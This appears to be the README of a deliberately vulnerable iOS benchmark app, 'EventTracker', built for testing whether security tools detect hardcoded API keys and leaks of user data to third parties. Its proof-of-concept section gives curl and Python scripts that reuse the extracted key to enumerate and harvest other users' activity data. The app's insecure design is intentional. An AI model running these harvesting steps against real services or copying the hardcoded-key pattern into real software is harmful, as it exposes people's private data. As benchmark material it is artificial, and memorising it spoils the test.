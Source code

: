 # oxo-ios-ben23 EventTracker - iOS leak information to 3rd party

## Challenge Details

### Description
A modern productivity and habit tracking application for iOS, "EventTracker," allows users to log daily activities across various categories including work, exercise, meals, and social events. The application features a clean SwiftUI interface with cloud synchronization capabilities for personalized insights and recommendations. However, the analytics integration contains a critical privacy vulnerability that exposes sensitive user data to third-party services through API key reuse and excessive data collection. Can your tool identify the hardcoded credentials and detect the unauthorized cross-user data access?

### Vulnerability Type and Category
- **Type:** Privacy Violation - Information Disclosure to Third Party
- **Category:** Sensitive Data Exposure

### Weakness (CWE)
- **CWE-200:** Exposure of Sensitive Information to an Unauthorized Actor
- **CWE-798:** Use of Hard-coded Credentials

### Platform
iOS (Swift/SwiftUI)

### Difficulty
Medium

## Vulnerability Overview
The application's `AnalyticsService` class transmits comprehensive user activity data to a third-party analytics service using a hardcoded API key that can be extracted and reused to access other users' sensitive information. While the app appears to provide legitimate productivity insights, it collects and transmits excessive personal data including activity notes, location information, device fingerprints, and behavioral patterns without proper access controls. This design flaw enables attackers to intercept the API key and gain unauthorized access to any user's private activity data.

**Key Vulnerability Points:**
- Hardcoded API key in application bundle
- Reusable authentication token across all users
- Excessive personal data collection and transmission
- HTTP transmission of sensitive information
- Predictable user identifier generation
- No per-user API key isolation

## Real-World Context
This vulnerability mirrors the actual security issue discovered in the Nord Security iOS application (HackerOne Report #752402), where application event data was exposed through the reuse of API keys. The vulnerability was classified as Critical severity and demonstrates how mobile applications can leak sensitive user information to third-party services when proper access controls are not implemented.

## Exploitation Vector
1. **Network Interception:** An attacker monitors network traffic from the EventTracker application during normal usage.
2. **API Key Extraction:** The hardcoded API key is extracted from HTTP headers or through static analysis of the application binary.
3. **Cross-User Access:** Using the same API key, the attacker queries the third-party service to access other users' activity data.
4. **Data Harvesting:** Sensitive personal information including activity patterns, location data, and device information is collected from multiple users.

## Proof of Concept Exploitation

### 1. Network Traffic Analysis
Monitor HTTP requests during app usage:
```bash
# Expected network traffic pattern
POST http://httpbin.org/post
Authorization: Bearer ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p
Content-Type: application/json

{
  "user_id": "user_12345678",
  "event_type": "activity_logged",
  "data": {
    "activity_title": "Private therapy session",
    "notes": "Discussed personal anxiety issues",
    "location": "Downtown Medical Center",
    "device_info": {
      "name": "John's iPhone",
      "identifier": "A1B2C3D4-E5F6-7890-ABCD-EF1234567890"
    }
  }
}
```

### 2. API Key Extraction
Extract the hardcoded API key from the application:
```bash
# Static analysis approach
strings EventTracker.app/EventTracker | grep "ak_live"
# Result: ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p
```

### 3. Cross-User Data Access
Use the extracted API key to access other users' data:
```bash
# Unauthorized access to other users' activities
curl -H "Authorization: Bearer ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p" \
     "http://analytics-api.eventtracker.com/v1/users/user_abc12345/activities"
```

### 4. Comprehensive Data Harvesting
Enumerate and collect data from multiple users:
```python
import requests

api_key = "ak_live_1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p"
headers = {"Authorization": f"Bearer {api_key}"}

# Access multiple users' sensitive data
user_ids = ["user_abc12345", "user_def67890", "user_ghi11223"]
for user_id in user_ids:
    response = requests.get(
        f"http://analytics-api.eventtracker.com/v1/users/{user_id}/activities",
        headers=headers
    )
    print(f"Accessed {user_id}: {response.status_code}")
```

## Build Instructions
This is a standard Xcode project built with SwiftUI for iOS 15.0+.

### Prerequisites
- Xcode 14.0 or later
- iOS 15.0+ Simulator or physical device
- macOS 12.0+ for development

### Building and Running
1. Open `EventTracker.xcodeproj` in Xcode
2. Select your target device (Simulator or physical device)
3. Build and run the project (`Cmd + R`)
4. The app will automatically attempt to sync activity data to the analytics service

## Testing the Vulnerability

### Step-by-Step Exploitation
1. **Launch EventTracker** in iOS Simulator or on a device
2. **Add new activities** by tapping the "+" button and creating various activity entries
3. **Monitor network traffic** using a proxy tool (Charles, Burp Suite, or mitmproxy)
4. **Extract the API key** from the Authorization header in HTTP requests
5. **Test cross-user access** by using the same API key with different user IDs
6. **Observe data leakage** in the transmitted JSON payloads

### Expected Results
- ✅ Hardcoded API key is transmitted in HTTP headers
- ✅ Sensitive personal data (notes, location, device info) is exposed
- ✅ Same API key provides access to other users' data
- ✅ No authentication or authorization controls are enforced
- ✅ Device fingerprinting and behavioral tracking is enabled

### Network Monitoring Setup
To capture the vulnerability in action:

1. **Configure HTTP Proxy:**
   ```bash
   # Using mitmproxy
   mitmproxy -p 8080 --set confdir=~/.mitmproxy
   ```

2. **Configure iOS Simulator:**
   - Settings → Wi-Fi → Configure Proxy → Manual
   - Server: 127.0.0.1, Port: 8080

3. **Monitor Traffic:**
   - Launch EventTracker
   - Add activities and observe HTTP requests
   - Extract API key from Authorization headers

### Vulnerability Indicators
Security tools should detect:
- **Static Analysis:** Hardcoded API key in `AnalyticsService.swift`
- **Dynamic Analysis:** HTTP requests with sensitive data transmission
- **Network Analysis:** Reusable authentication tokens
- **Privacy Analysis:** Excessive data collection patterns